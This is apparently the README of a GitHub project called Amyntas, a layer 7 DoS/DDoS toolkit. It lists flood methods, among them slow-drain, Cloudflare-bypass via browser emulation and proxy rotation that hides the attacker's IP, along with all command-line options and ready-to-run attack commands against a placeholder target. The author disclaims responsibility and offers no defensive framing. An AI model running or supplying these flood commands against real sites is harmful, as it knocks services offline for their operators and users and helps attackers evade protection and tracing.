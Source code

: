 ## NOTE!
Results may vary A LOT when attacking! <br>
It might peak at 40k rq/s and drop down to 2k rq/s or peak at 169 requests per second, just so you know! <br>
Also, for the `BYPASS` attack to work on <strong>\*nix</strong> you need to replace the `.exe` executable with the ELF binary.

--- 

### About
Amyntas is a layer 7 DoS/DDoS toolkit, with a variety of attack methods and the capability to bypass caching systems. <br>
Use at your own risk! I, the author, am not responsible for any harm you do! Keep that in mind!

<br>

Aviable methods
- `GET` (simple GET flood)
- `HEAD` (simple HEAD flood)
- `POST` (simple POST flood)
- `FAST` (a <strong>GET /</strong> flood)
- `GHP`/`GETHEADPOST` (a flood which randomly chooses GET, HEAD or POST as request method)
- `LEECH` (a low & slow HTTP GET flood which can drain A LOT of bandwith)
- `MIX` (a method which randomly chooses HTTP request methods)
- `BYPASS` (method which uses browser emulation to get a cookie which will be used to bypass services like Cloudflare)
- `PROXY` (GET flood which hides its IP using a specified proxy list)

---

### Features
1. Proxy scraper & checker
2. Cache bypassing mechanisms
3. Random headers (user agents, referers)
4. Real time "worker" system
5. Supports custom user-agent and referer
6. Proxy support (Rotating proxy aswell `--rotate-proxy <file with proxies>`)

---

### Known bugs/problems
1. None ATM :3

---

### To Do list
1. More methods
2. More documentation
3. Better exception handling
4. Maybe colors? lol
5. Better debugging (it's shit atm)

---

### Usage
All options:
```
-h, --help                             Show this help message and exit
-t TARGET, --target TARGET             Target URL (Example: https://google.com or http://yandex.ru)
-p PORT, --port PORT                   Target port (Leave empty to let the tool decide)
-d DURATION, --duration DURATION       Attack duration
--proxy-file FILE_PATH                 Path to proxies
--proxy PROXY                          Use a proxy when attacking (Example: 127.0.0.1:1337)
--proxy-type PROXY_TYPE                Set the proxy type (HTTP, SOCKS4 or SOCKS5)
--proxy-user PROXY_USER                Proxy username
--proxy-pass PROXY_PASS                Proxy password
--proxy-resolve                        Resolve host using proxy (needed for hidden service targets)
-rt, --rotate-proxies                  Wether we should rotate proxies (use with `--proxy-file`)
-ua USERAGENT, --user-agent USERAGENT  User agent to use when attacking, else its randomly chosen
-ref REFERER, --referer REFERER        Referer to use when attacking, else its randomly chosen
-w WORKERS, --workers WORKERS          Amount of workers/threads to use when attacking
-dbg, --debug                          Print info useful for debugging
-bc, --bypass-cache                    Try to bypass any caching systems to ensure we hit the main site
-m METHOD, --method METHOD             Method to use when attacking (default: GET)
-dfw, --detect-firewall                Detect if the target site is protected by a firewall
--http-version HTTP_VERSION            Set the HTTP protocol version (default: 1.1)
--scrape-proxies                       Wether to scrape a list of proxies first (set the type using `--proxy-type`)
--check-proxies FILE_LOCATION          Specify a file with proxies to check (set type using `--proxy-type`)
```

Basic usage:
```
python3 amyntas.py -t https://target.com
```

GET flood, attacking with 100 threads for 1337 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -d 1337
```

POST flood, attacking with 700 threads for 40 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -m POST -d 40
```

Proxified PROXY/GET flood using a file with SOCKS5 proxies, with 1337 threads for 40 seconds:
```
python3 amyntas.py --proxy-file socks5.txt --proxy-type SOCKS5 -t https://target.com -w 1337 -d 40 -m PROXY
```

Raw GET flood, using HTTP protocol version 430 with 999 threads for 999 seconds:
```
python3 amyntas.py --http-version 430 -m GET -w 999 -d 999 -t https://target.com:420
```

GET flood that bypasses Cloudflare's UAM mode:
```
python3 amyntas.py -t https://target.com -w 200 -d 100 -m BYPASS --proxy-file socks5.txt
```

---

### Requirements

```
requests
argparse
colorama
netaddr
cloudscraper
selenium
undetected_chromedriver
ssl
```

---

### Images
<p>3.8k GET flood using 2300 threads</p>

![image](https://user-images.githubusercontent.com/78029616/164300794-c4b850ba-37d0-41e0-a62f-53f7578ff731.png)